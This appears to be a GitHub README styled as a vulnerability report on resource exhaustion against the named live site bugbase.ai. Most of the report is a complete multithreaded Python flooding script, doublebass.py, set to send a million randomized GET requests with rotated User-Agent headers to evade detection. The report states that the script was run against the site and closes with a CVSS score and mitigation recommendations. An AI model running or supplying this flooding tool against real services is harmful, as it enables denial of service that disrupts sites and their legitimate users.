 # Do_you_like_bass
Bugbase Ddos

### Report: DDoS through Resource Exhaustion Using `doublebass.py`

#### Overview

This report details a Distributed Denial of Service (DDoS) attack executed through resource exhaustion using a Python script (`doublebass.py`). The attack targets the website `https://bugbase.ai`, aiming to overload its resources and deny legitimate access. The script generates a high volume of GET requests using randomly generated URLs, leveraging multi-threading to maximize impact.

#### Attack Description

**Script: `doublebass.py`**
- The script sends a large number of GET requests to the target URL with randomized suffixes.
- It utilizes multi-threading to create parallel requests, significantly increasing the load on the target server.
- User-Agent headers are rotated to mimic requests from different devices and platforms, making detection harder.
- The script can be configured to repeat the attack a specified number of times (set to 1,000,000 in the example).

```python
import requests
import threading
import random
import string
import time

# Base URL pattern with a placeholder for the random suffix
base_url_pattern = "https://bugbase.ai/dashboard/reports/{suffix}"

# Function to generate random suffixes
def generate_random_suffix(length=24):
    return ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))

# List of user agents to rotate through
user_agents = [
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36',
    'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36',
    'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15',
    'Mozilla/5.0 (iPhone; CPU iPhone OS 14_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1',
    # Add more user agents as needed
]

# Number of times to repeat the attack
repeat = 1000000  # Set this to a large number for a heavier attack simulation

# Function to perform the GET request
def perform_get_request(base_url_pattern, headers, i):
    try:
        random_suffix = generate_random_suffix()
        url = base_url_pattern.format(suffix=random_suffix)

        response = requests.get(url, headers=headers)

        # Print out the response code, final URL after redirect, and the payload used
        print(f"Attempt {i + 1}: Requested URL {url} - Final URL: {response.url} - Status Code: {response.status_code}")
    except Exception as e:
        print(f"Error occurred: {e}")

# Function to handle threading
def get_with_threads(base_url_pattern, repeat):
    threads = []
    for i in range(repeat):
        headers = {
            'User-Agent': user_agents[i % len(user_agents)],
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
            'Connection': 'keep-alive',
        }

        if len(threads) >= 100:  # Manage thread count
            for thread in threads:
                thread.join()
            threads = []

        thread = threading.Thread(target=perform_get_request, args=(base_url_pattern, headers, i))
        threads.append(thread)
        thread.start()

     #   time.sleep(0.001)  # Optional delay to manage rate-limiting

    # Wait for all remaining threads to complete
    for thread in threads:
        thread.join()

# Example usage
if __name__ == "__main__":
    get_with_threads(base_url_pattern, repeat)
```
  
**Observed Behavior:**
- The attack led to HTTP 429 errors (`Too Many Requests`), indicating the server's rate-limiting mechanisms were triggered.
- Successful status code 200 responses were also observed, indicating some requests bypassed the rate-limiting temporarily.

#### Images and Script Evidence

1. **Evidence of Attack Execution:**
   ![PXL_20240909_095222744.jpg](https://github.com/DeadmanXXXII/Do_you_like_bass/main/PXL_20240909_095222744.jpg)
   
   This image shows the browser displaying an HTTP 429 error (`Too Many Requests`) during the attack.

2. **Script Execution Output:**
   ![Screenshot_20240909-105211.png](https://github.com/DeadmanXXXII/Do_you_like_bass/main/Screenshot_20240909-105211.png)
   
   This screenshot captures the script's execution on a mobile device, showing numerous GET requests sent to `https://bugbase.ai` and corresponding status codes.

#### Impact Assessment

**Potential Impact:**
- **Resource Depletion:** The flood of requests can deplete server resources, including CPU, memory, and bandwidth, potentially causing downtime.
- **Service Disruption:** Legitimate users may be unable to access the website, leading to a loss of business, reputation damage, and potential financial losses.

**CVSS Score:**
- **Base Score:** 7.5 (High)
- **Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- **Explanation:** The attack is remotely exploitable with low complexity, requiring no authentication. It primarily affects the availability of the target website without compromising confidentiality or integrity.

**CWE ID:**
- **CWE-400: Uncontrolled Resource Consumption ('Resource Exhaustion')**
  - **Description:** The vulnerability occurs when an attacker can send a large number of requests or cause significant processing overhead, leading to resource exhaustion on the server.

#### Conclusion

The `doublebass.py` script effectively simulates a DDoS attack through resource exhaustion, impacting the availability of `https://bugbase.ai`. The attack triggers rate-limiting mechanisms but continues to overload the server, causing intermittent service disruptions. To mitigate such attacks, implementing stronger rate-limiting, IP blacklisting, and using a content delivery network (CDN) with DDoS protection are recommended.

#### Recommendations:
- **Rate Limiting:** Strengthen the existing rate-limiting rules to block repetitive requests more aggressively.
- **DDoS Mitigation Services:** Implement DDoS protection services such as Cloudflare or AWS Shield to absorb and filter malicious traffic.
- **Server Hardening:** Optimize server configurations to handle a higher volume of requests without resource depletion.
